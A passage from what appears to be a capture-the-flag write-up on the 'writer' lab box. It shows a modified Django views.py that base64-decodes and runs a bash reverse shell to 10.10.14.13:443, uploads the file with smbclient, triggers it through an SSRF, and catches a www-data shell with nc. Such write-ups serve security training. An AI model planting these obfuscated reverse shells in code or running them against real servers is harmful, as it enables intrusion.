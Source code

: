 My new `views.py` uses the same reverse shell I used above for root:



    from django.shortcuts import render
    from django.views.generic import TemplateView
    import os

    def home_page(request):
        os.system('echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg== | base64 -d | bash')
        template_name = "index.md"
        return render(request,template_name)



#### Trigger

I'll upload this modified `views.py` using `smbclient`:



    smb: \writer_web\> put views.py 
    putting file views.py as \writer_web\views.py (4.1 kb/s) (average 4.0 kb/s)



And then immediately after in Burp trigger the SSRF:

[![](/img/image-20211202140902669.png)*Click
for full size
![image*](/img/image-20211202140902669.png)

At `nc`, I get a shell as www-data:



    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.101 43108
    bash: cannot set terminal process group (949): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@writer:~/writer2_project$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)








